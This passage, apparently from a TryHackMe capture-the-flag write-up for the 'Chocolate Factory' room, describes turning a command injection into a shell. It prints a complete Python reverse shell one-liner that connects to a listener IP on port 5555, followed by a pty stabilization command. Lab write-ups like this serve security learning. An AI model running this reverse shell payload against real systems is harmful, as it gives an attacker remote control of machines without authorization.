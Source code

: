 ![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Chocolate-Factory/Images/Screenshot%208.png)

To escalate this into a shell, I prepared a reverse shell payload and set up a Netcat listener on port 5555. The payload used was:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.201.99.122",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
After executing the payload from the command injection point, I caught the reverse shell and then stabilized it with:
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I also located the `key_rev_key` file mentioned earlier.

![Alt text](https://github.com/chaiexe/TryHackMe-Write-ups/blob/main/Chocolate-Factory/Images/Screenshot%209.png)

With local access established, I was able to read the contents of the `key_rev_key` file, which revealed a key.
